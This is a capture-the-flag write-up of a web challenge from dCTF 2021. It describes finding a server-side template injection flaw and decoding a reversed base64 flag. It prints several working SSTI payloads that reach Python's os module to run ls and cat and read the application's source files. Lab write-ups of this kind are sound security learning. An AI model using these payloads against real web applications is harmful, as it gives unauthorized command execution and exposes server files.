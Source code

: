 Challenge: Injection
<br>
Points: 200
<br>
Category: Web
<br>
Objective: Go to the given URL and get the flag
<br><br>
Process of find the flag: So when I opened up the URL I saw a basic login form, I thought we need to use SQL injection to exploit it, I tried a lot of SQL injections but none of them worked, then I thought maybe XSS injections would work so I tried a lot of XSS injections, this all took me around 1.5 hours to two hours and the result was nothing I did not make any progress at all.
<br><br>
So after a few hours of rest and a couple of challenges later I came back to it, because one of my friends gave me a hint that its related to Server Side Template Injection(SSTI), so I quickly watched a few YouTube videos to understand how SSTI works.
<br><br>
After watching the videos I googled ‘SSTI payload cheatsheet’ and found a lot of resources full of SSTI payloads, then I tried all of them in the input field and none of them worked at all, then later on I got to know that I need to add those payloads at the end of the URL and not in the input fields, so I quickly tried a few basic payloads and they seem to be working, so now I just had to find the correct payload.
<br><br>
I found this payload 
```

{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

```
<br>
What this does is, it imports OS module, and allows us to use OS commands, so when we use ls command we get this 
<br><br> 
<img src='https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/web/Injection/content.png'>
<br>

So no we needed to check all the other folders and the app.py file.
I did check app.py by 
```

{{config.__class__.__init__.__globals__['os'].popen('cat app.py').read()}}

```
But I didn’t get the result that I wanted.

So I tried to list all the items in the lib directory, and this could be done by 
```

{{config.__class__.__init__.__globals__['os'].popen('ls /app/lib').read()}}

```
This directory had a file named as security.py
<br><br>
![post_request](https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/web/Injection/request.png)
<br>
So now I had to check what was inside security.py
```
{{config.__class__.__init__.__globals__['os'].popen('cat /app/lib/security.py').read()}}
```
I found something really helpful.
<br><br>
![result](https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/web/Injection/request.png)
<br>
This is the flag, but its encrypted, so now I just had to decrypt it.
<br>
I couldn’t decrypt it due to my bad cryptography skills, so my teammate did it.
To decrypt it you just had to flip the string backwords and then decrypt it using base64.
This is the reversed string
<br><br>
![decrypted_result](https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/web/Injection/decrypted%20result.png)
<br>
The flag: dctf{4ll_us3r_1nput_1s_3v1l}
<br><br><br>
The tool that I used in this challenge is Postman(https://www.postman.com/)
